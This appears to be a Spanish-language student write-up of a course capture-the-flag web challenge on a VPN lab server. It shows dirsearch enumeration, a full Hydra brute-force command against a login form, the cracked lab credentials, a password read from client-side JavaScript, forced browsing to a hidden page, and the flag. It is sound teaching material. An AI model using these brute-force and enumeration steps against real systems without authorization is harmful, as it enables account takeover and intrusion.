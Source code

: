# Writeup P1 Tarea 2

**Nombre**: Valentina Rojas Osorio

**Equipo**: Hack Pals

# Desarrollo 
 _Para la solución de este problema, se está obviando la **instalación** de herramientas vistas durante el curso, sin embargo, se especifica detalladamente cómo utilizarlas en cada paso. También se especifican usos e instalación de herramientas externas (no vistas)._
 
 _Además, se debe estar conectado a la VPN del CEC, para tener acceso al servidor 172.17.69.241_

---

 Comenzamos con un mensaje de la página que nos dice que no tenemos acceso a ella, lo que implica que tenemos que "ingresar" de alguna manera.

1. Procedemos a buscar información sobre directorios a los que podamos acceder en el servidor (directorios con código de respuesta 200) con la herramienta [dirsearch](https://www.kali.org/tools/dirsearch/). Una vez completada la instalación, abrimos una consola en linux y ejecutamos
    ```
    $ dirsearch -u 172.17.69.241:8081
    ```

1. Encontramos los siguientes directorios:
    ```
    200  1KB  /access_log
    200  874B /favicon.ico
    ```
    Descartamos el favicon.ico, por lo tanto vamos al primer directorio.


1. Aqui encontraremos lo que parecen ser request de tipo GET con response code 400, excepto 
    ```
    /mySuperSecretHiddenLogin.php
    ```
     que tiene response code 200 y un nombre muy sospechoso. 

## Formulario 1: /mySuperSecretHiddenLogin.php

Al dirigirnos a http://172.17.69.241:8081/mySuperSecretHiddenLogin.php nos encontramos un _form_ que solicita Username y Password.

1. Al escribir cualquier _password_ equivocada, la página nos arroja el mensaje "Error". 

1. Si inspeccionamos la página, en el _form_ vemos que el campo de input de Username tiene _name_ username y _value_ admin, y el input de Password tiene name _password_. 

1. Atacamos con fuerza bruta para obtener la Password con la herramienta [Hydra](https://github.com/vanhauser-thc/thc-hydra), abrimos una consola y ejecutamos

    ```
    hydra -l admin -P /home/kali/Desktop/passwords.txt -u -s 8081 172.17.69.241 http-post-form "/mySuperSecretHiddenLogin.php:username=admin&password=^PASS^:Error"
    ```
	* _passwords.txt es un archivo de claves que tenemos en el escritorio de kali_

1. Finalmente, hydra nos arroja las credenciales

    ```
    login: admin password: password1
    ```

## Formulario 2: /password2.php

Una vez logeados como admin, el servidor nos redirigue a http://172.17.69.241:8081/password2.php

1. Al inspeccionar esta página, tenemos otro formulario y notamos que el botón Enter ejecuta una función al hacer click. Esta función se encuentra en el script de la página y es de la forma
    ```js
    <script>
		function checkSecondPassword() {
			var secondPassword = document.getElementById("secondPassword").value;
			if (secondPassword == 'XGQq8aPtvCDAaxPxuFV4aw2uAVvLt5mjRAmyCaCR4QNQm55D7V') {
                document.location = '/mySuperSecretHiddenHome.php';
                } 
            else { document.location = '/';
			}
		}
    </script>    
    ```
    Esta función nos dice que si la secondPassword es 
    ```
    XGQq8aPtvCDAaxPxuFV4aw2uAVvLt5mjRAmyCaCR4QNQm55D7V
    ```
    entonces nos redirige a /mySuperSecretHiddenHome.php


1. Si ingresamos la secondPassword al formulario y damos click en Enter, el servidor no hace nada, por lo tanto nos vamos a la url http://172.17.69.241:8081//mySuperSecretHiddenHome.php a la "fuerza".

1. La página indica que encontramos la flag, pero los corchetes están vacíos, por lo que nuevamente inspeccionamos la página y encontramos que la Flag está escondida en el atributo _alt_ de la imagen.


# Resultados

La flag de este problema es 

        CC5325{my5up3253c237h1dd3nf149}

##

    
